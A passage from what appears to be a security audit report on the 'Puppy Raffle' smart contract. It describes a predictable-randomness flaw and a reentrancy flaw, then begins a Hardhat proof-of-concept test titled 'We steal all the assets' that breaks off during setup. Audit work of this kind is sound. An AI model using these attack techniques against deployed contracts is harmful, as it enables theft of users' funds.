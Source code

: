 Anyone is able to get the needed index

## Vulnerability Details

A malicious actor can copy the lines that calculate random numbers, and get the index they need, and call the selectWinner function when they need to become a winner

## Impact

Anyone could cheat and win all raffles 

## Tools Used

hardhat

## Recommendations

For generating a random number use off-chain oracles or services specifically for this
## <a id='H-02'></a>H-02. Effects should be before interactions - reentrancy vulnerability            

### Relevant GitHub Links
	
https://github.com/Cyfrin/2023-10-Puppy-Raffle/blob/07399f4d02520a2abf6f462c024842e495ca82e4/src/PuppyRaffle.sol#L101-L103

## Summary

The function is vulnerable to the reentrancy attack. All the assets will be stolen.

## Vulnerability Details

there is a pattern that every developer should follow - checks => effects => interactions. Otherwise the code might become vulnerable

## Impact

Anyone by using a malicious smart contract can attack the function and steal all the assets.
Here's the proof test:

```javascript
import { expect } from 'chai';
import { ethers } from 'hardhat';
import { PuppyRaffle } from '../typechain-types';

const { provider, deployContract, getSigners, Wallet, parseEther, formatEther } = ethers;

let puppyRaffle: PuppyRaffle;

let initialPuppyRaffleBalance: number, initialAttackerBalance: number;

describe('puppyRaffle', function () {
	it('We steal all the assets', async () => {
		const [deployer, attacker] = await getSigners();

		puppyRaffle = await deployContract('PuppyRaffle', [parseEther('1'), deployer.address, 1000 * 60 * 60 * 24]);

		// 20 players enter the ruffle
		for (let i = 0; i < 20; i++) {
			const aUser = Wallet.createRandom().connect(provider);
			await provider.send('hardhat_setBalance', [
```